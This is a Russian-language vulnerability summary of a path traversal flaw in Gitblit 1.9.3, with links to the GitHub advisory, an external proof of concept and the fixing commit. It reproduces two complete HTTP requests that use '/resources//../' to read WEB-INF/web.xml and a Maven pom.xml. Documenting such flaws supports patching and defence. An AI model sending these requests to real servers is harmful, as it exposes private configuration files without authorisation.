


# Обзор #

## Описание уязвимости на github asvisory: ##
https://github.com/advisories/GHSA-2c65-rq62-fqhq

## Описание уязвимости: ##
Уязвимость Path Traversal в Gitblit 1.9.3 может привести к чтению файлов веб-сайта через /resources//../ (например, с указанием пути WEB-INF или META-INF).

## Метод, приводящий к уязвимости ##
java.lang.String.encode

## Репозиторий проекта с уязвимостью: ##
https://github.com/gitblit-org/gitblit

## PoC: ##
https://github.com/metaStor/Vuls/blob/main/gitblit/gitblit%20V1.9.3%20path%20traversal/gitblit%20V1.9.3%20path%20traversal.md

~~~
GET /resources//../WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=1arfn8db09ors1a3p1837sgxmh; Gitblit=a9d7b582ef204ffbd9cc2ff18f01d603c069fbeb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
~~~

~~~
GET /resources//../META-INF/maven/com.gitblit/gitblit/pom.xml HTTP/1.1
Host: 127.0.0.1:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=1arfn8db09ors1a3p1837sgxmh; Gitblit=a9d7b582ef204ffbd9cc2ff18f01d603c069fbeb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
~~~

## Коммиты, исправившие уязвимость: ##
https://github.com/gitblit-org/gitblit/commit/f1b150b8f3860e9116ecc7a5290e8296ca4fdcb5
